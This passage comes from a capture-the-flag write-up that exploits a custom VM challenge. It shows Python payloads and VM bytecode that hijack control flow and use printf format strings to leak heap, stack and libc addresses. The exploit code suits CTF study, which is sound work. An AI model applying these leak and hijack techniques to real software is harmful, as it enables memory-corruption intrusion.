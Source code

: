 In this case, we see `RDX` is part of our cyclic value sent in the second payload, at an offset of 4. We can control this so that it returns to our payload we just wrote to, which is at `0x2008`! We can then write our own VM shellcode.

### VM Shellcoding (address leak)

We first write a shellcode to use `printf` to leak addresses, where the "`%p`"s will be placed in the first payload and pop the offset to it is in `reg[1]`.

I added this to my first payload, and calculated that the offset to the "`%p`"s were at `memory+0xe021`:

```python
payload += cyclic(25)
payload += b'%p'*40 + b'%p %p %p %p||'
```

Afterwards, we need to continue the payload so we create another `read` syscall. However, we now overwrite the instructions at `0xa80` and we then jump to `0xa60`, which is right before the syscall. This makes it so that my next payload would be executed as VM instructions right after the `read` syscall is done. (I had to do this as I did not think of overwriting the size at that time, so had size restrictions and had to keep jumping around)

```nasm
0xa60: 00000016 00000002 00000100 000000001  → LOAD_IMM reg[2], 256 (0x100)
0xa70: 00000015 00000000 00000000 000000000  → SYSCALL (reg[0]=0, reg[1]=0, reg[2]=256)
0xa80: <this will be my next payload>
```

```python
payload = b'AAAA' + p32(0x2008)
payload += p32(0x11) + p32(0x0d) + p32(0x0e) + p32(0)
payload += p32(0x11) + p32(0x02) + p32(0) + p32(0)      # make sure not to clobber the stack
payload += p32(0x16) + p32(0) + p32(0x1) + p32(0) 
payload += p32(0x16) + p32(0x1) + p32(0xe021) + p32(0)  # 0xe021 offset
payload += p32(0x15) + p32(0) + p32(0) + p32(0)         # printf(memory+0xe021), containing the "%p"s
payload += p32(0x11) + p32(0x0e) + p32(0x0d) + p32(0)
payload += p32(0x10) + p32(0xd) + p32(0) + p32(0)

payload += p32(0x16) + p32(0) + p32(0) + p32(0) 
payload += p32(0x16) + p32(1) + p32(0xa80) + p32(0)     # 0xa80 is right after the syscall
payload += p32(0x7) + p32(0xa60) + p32(0x0) + p32(0)    # jump to 0xa60
payload += p32(0xd) + p32(0) + p32(0) + p32(0)

p.send(payload)
```

Now we can see that we have a bunch of addresses leaked, in which case we can parse them to get the heap address, stack address, and libc address.

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
